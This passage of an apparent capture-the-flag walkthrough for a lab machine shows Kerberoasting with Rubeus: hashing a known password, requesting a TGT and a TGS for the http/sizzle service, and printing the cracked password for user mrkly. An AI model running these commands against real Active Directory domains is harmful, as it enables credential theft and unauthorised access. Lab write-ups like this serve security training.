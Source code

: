 
### Kerberoasting mrkly using Rubeus

⇒ So we will be using a tool named Rubeus to kerberoast the user mrkly that has http/sizzle spn set

- Authorizing as user amanda and requesting tgt

```
.\r.exe hash /password:Ashare1972

.\r.exe asktgt /user:amanda /rc4:7D0516EA4B6ED084F3FDF71C47D9BEB3 /outfile:ticket
```

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sizzle%20Box%20820989b0557d46f4bd5054fb500ba254/Untitled%2018.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sizzle%20Box%20820989b0557d46f4bd5054fb500ba254/Untitled%2018.png)

- Next we'll request TGS ( Ticket Granting Service ) for the service http/sizzle :

**.\r.exe asktgs /service:http/sizzle /ticket:ticket**
- Finally kerberoasting

**.\r.exe kerberoast /spn:http/sizzle /ticket:ticket /nowrap**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sizzle%20Box%20820989b0557d46f4bd5054fb500ba254/Untitled%2019.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sizzle%20Box%20820989b0557d46f4bd5054fb500ba254/Untitled%2019.png)

**mrkly : Football#7**

---
